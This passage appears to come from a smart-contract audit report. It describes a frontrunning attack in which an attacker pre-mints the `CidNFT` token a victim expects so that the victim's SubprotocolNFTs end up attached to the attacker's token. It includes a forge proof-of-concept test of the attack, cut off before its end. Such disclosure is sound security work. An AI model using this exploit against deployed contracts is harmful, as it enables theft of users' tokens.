 This opens up the following attack:

1.  Victim sends a transaction expecting to mint `CidNFT #100`, and includes calldata to `add()` their SubprotocolNFT to the token in the same tx
2.  Attacker frontruns this transaction with a `mint()` with no `add()` parameters, receives `CidNFT #100`, and sets the victim as approved for that token
3.  The victim's transaction begins execution, and they instead receive token #101, though their `add()` calldata still specifies token #100
4.  The victim's `add()` call continues, and their SubprotocolNFT is registered to `CidNFT #100` and transferred to the `CidNFT` contract
5.  The attacker can then either revoke approval to the victim for `CidNFT #100` or immediately call `remove()` to transfer the victim's SubprotocolNFT to themselves

Below is a forge test executing this attack. This should run if dropped into `CidNFT.t.sol`.

    function testMaliciousMint() public {
        uint256 cidTokenId = cidNFT.numMinted() + 1;
        (uint256 subTokenId1, uint256 subTokenId2) = (1, 2);
        (uint256 key1, uint256 key2) = (1, 2);

        // user1 == attacker
        // user2 == victim
        // Frontrun the victim's mint by minting the cidNFT token they expect before them
        vm.startPrank(user1);
        cidNFT.mint(new bytes[](0));

        // Set the victim (user2) as approved for the token user1 just minted
        cidNFT.setApprovalForAll(user2, true);
        vm.stopPrank();

        // Mint user2 the subtokens that user1 wants to steal, approve the CidNFT contract
        // for the subtokens, and prepare the addlist with the incorrect cidNFT token id
        vm.startPrank(user2);
        sub1.mint(user2, subTokenId1);
        sub1.mint(user2, subTokenId2);
        sub1.setApprovalForAll(address(cidNFT), true);

        bytes[] memory addList = new bytes[](2);
        addList[0] = abi.encode(
            cidTokenId,
            "sub1",
            key1,
            subTokenId1,
            CidNFT.AssociationType.ORDERED
        );
        addList[1] = abi.encode(
            cidTokenId,
            "sub1",
            key2,
            subTokenId2,
            CidNFT.AssociationType.ORDERED
        );

        // Mint user2 a new CidNFT and attach the subtokens to user1's CidNFT
        cidNFT.mint(addList);
        vm.stopPrank();
